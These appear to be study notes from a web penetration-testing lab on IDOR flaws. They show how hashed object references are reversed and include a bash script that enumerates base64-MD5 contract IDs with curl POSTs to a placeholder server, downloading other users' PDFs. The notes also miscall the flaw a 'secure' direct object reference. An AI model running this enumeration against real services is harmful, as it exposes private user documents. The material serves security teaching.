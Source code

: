 **Burp Comparer** can help us fuzz various values and compare them to a target hash to try and see if we can get any matches. This is a **secure direct object reference**.

## Function Disclosure

Many modern web apps are developed using JavaScript frameworks like Angular, React, or Vue.js Some sensitive functions may be done on the front end, exposing them to attackers. If a hash is calculated on the front end we may be able to determine the encoding right away.
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
Here we see the function that is being used. btoa is the javascript function for converting the uid to to base64. It is then hashed to md5 and converted to a string.

We can replicate this: 
```shell-session
user@computer$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
The -n flag with echo and the -w 0 flag for base 64 are necessary to avoid adding newlines which would mess up the hash. (This is a mistake I made earlier this week.)

We can do something similar to the GET example above.
```shell-session
user@computer$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```
Then run the exploit.
```shell-session
user@computer$ bash ./exploit.sh
user@computer$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
```